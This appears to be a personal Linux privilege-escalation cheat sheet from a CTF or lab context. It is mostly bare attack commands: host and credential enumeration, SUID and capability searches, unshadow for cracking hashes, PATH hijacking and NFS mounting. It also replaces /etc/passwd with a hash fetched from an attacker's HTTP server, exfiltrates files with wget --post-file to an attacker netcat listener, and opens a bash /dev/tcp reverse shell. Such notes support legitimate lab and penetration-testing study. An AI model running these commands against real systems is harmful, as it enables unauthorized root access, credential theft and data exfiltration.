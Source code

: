 

# Linux Privesc


https://martinkubecka.github.io/posts/thm/linux-privilege-escalation/

```
hostname

uname -a

/proc/version

/etc/issue

ps axjf

ps aux

env

sudo -l

id

/etc/passwd

history

ifconfig

ip route

netstat -ano

netstat -tulpn



```



unshadow passwd.txt shadow.txt > passwords.txt



## Find

```  
find / -type f -perm -04000 -ls 2>/dev/null


find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null


find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

find / -writable 2>/dev/null

```

## Capabilities

```
getcap -r / 2>/dev/null

```

## Cron

```
/etc/crontab

cat /etc/crontab
```

## PATH
```
echo $PATH

export PATH=/tmp:$PATH
```

## NFS
```
cat /etc/exports

showmount -e $target

mount -o rw 10.10.1.128:/home/backup tmp21




```


https://gtfobins.github.io/
https://lolbas-project.github.io/
https://www.exploit-db.com/

https://github.com/SolomonSklash/htbenum


## WGET 1 

### Attacker

```
openssl passwd -1 -salt salt pass123
```

localy add to the an example passwd file and make it available on http

```
python3 -m http.server
```

### Target
```
wget -O passwd http://192.168.1.108:8000/passwd
```

login or su to that user with the password 'pass123'

## WGET 2

### Attacker

open netcat to allow the target to push the file

```
nc -lvnp 1234
```

### Target

```
URL=attacker_ip:1234
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

# Reverse Shell
```
bash -i >& /dev/tcp/10.9.65.211/1234 0>&1
```
